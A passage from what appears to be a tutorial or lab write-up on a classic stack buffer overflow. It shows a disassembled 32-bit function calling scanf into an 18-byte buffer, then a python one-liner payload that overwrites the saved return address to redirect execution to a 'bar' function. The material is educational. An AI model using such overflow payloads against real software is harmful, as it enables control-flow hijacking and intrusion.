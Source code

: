 ```
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 ec 18             	sub    $0x18,%esp
 80484aa:	83 ec 08             	sub    $0x8,%esp
 80484ad:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484b0:	50                   	push   %eax
 80484b1:	68 a0 85 04 08       	push   $0x80485a0
 80484b6:	e8 b5 fe ff ff       	call   8048370 <__isoc99_scanf@plt>
 80484bb:	83 c4 10             	add    $0x10,%esp
 80484be:	83 ec 08             	sub    $0x8,%esp
 80484c1:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484c4:	50                   	push   %eax
 80484c5:	68 a3 85 04 08       	push   $0x80485a3
 80484ca:	e8 71 fe ff ff       	call   8048340 <printf@plt>
 80484cf:	83 c4 10             	add    $0x10,%esp
 80484d2:	90                   	nop
 80484d3:	c9                   	leave  
 80484d4:	c3                   	ret    

080484d5 <main>:
...
 80484df:	55                   	push   %ebp
 80484e0:	89 e5                	mov    %esp,%ebp
 80484e2:	51                   	push   %ecx
 80484e3:	83 ec 04             	sub    $0x4,%esp
 80484e6:	e8 b9 ff ff ff       	call   80484a4 <foo>
...

```

Notice these instruction in `foo`  
```
 80484ad:	8d 45 ee             	lea    -0x12(%ebp),%eax
 80484b0:	50                   	push   %eax
 80484b1:	68 a0 85 04 08       	push   $0x80485a0
 80484b6:	e8 b5 fe ff ff       	call   8048370 <__isoc99_scanf@plt>
```

The value of 0x12 is subtracted from `$ebp` and is then pushed to stack for call to `scanf`.
We know that one of them is nothing but buffer that scanf inputs.
This must be the buffer that need to inject. base16(12) == base10(18). Our buffer is 18 bytes from `$ebp`.  

Finally we are ready to craft the payload.  
``echo -e `python -c 'print "A"*18+<Dummay valur for EBP>+<Return address>'` | ./first ``  
The exact payload looks like:    
``echo -e `python -c 'import struct;print "A"*18+"BBBB"+struct.pack("<I", 0x0804848b )'` | ./first ``

```
Hello ji AAAAAAAAAAAAAAAAAABBBB? 
How come you entered into bar ?
Segmentation fault (core dumped)
```
